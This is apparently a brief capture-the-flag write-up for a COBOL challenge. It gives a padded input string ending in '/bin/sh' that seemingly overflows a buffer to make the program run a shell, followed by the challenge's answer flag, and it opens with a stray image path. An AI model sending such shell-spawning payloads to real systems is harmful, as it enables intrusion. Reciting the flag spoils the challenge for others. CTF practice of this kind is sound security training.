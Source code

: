 # COBOL
send

`AAAAAAAAAAAA/bin/sh #           system`

for PLAYER2
`INSA{Cobol_and_MainFrame_4ever}`

